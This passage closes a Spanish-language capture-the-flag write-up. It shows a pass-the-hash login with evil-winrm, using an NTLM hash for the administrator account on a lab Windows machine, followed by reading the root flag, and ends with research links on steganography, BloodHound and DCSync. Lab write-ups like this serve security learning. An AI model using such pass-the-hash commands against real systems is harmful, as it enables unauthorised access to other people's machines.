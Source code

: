 Y por último con **evil-winrm**:
```batch
evil-winrm -i 192.168.212.4 -u 'administrator' -H '5d48bcf84aea999fb1ade06970a81237'
Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
.                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
bbr\administrator
```

Solamente buscamos la última flag que nos falta:
```batch
*Evil-WinRM* PS C:\Users\Administrator\Documents> dir

    Directory: C:\Users\Administrator\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/30/2024   5:05 AM             32 root.txt

*Evil-WinRM* PS C:\Users\Administrator\Documents> type root.txt
...
```
Y con esto terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://infosecwriteups.com/beginners-ctf-guide-finding-hidden-data-in-images-e3be9e34ae0d
* https://github.com/zed-0xff/zsteg
* https://latam.kaspersky.com/resource-center/definitions/what-is-steganography
* https://www.kali.org/tools/stegcracker/
* https://www.reddit.com/r/computerforensics/comments/be92z5/is_there_any_tool_to_identify_steganography/
* https://github.com/bannsec/stegoveritas
* https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
* https://github.com/SpecterOps/SharpHound/releases/tag/v1.1.1
* https://m4lwhere.medium.com/the-ultimate-guide-for-bloodhound-community-edition-bhce-80b574595acf
* https://nordvpn.com/cybersecurity/glossary/steganalysis/
* https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/dcsync.html?highlight=dcsync%20attack#dcsync-1


<br>
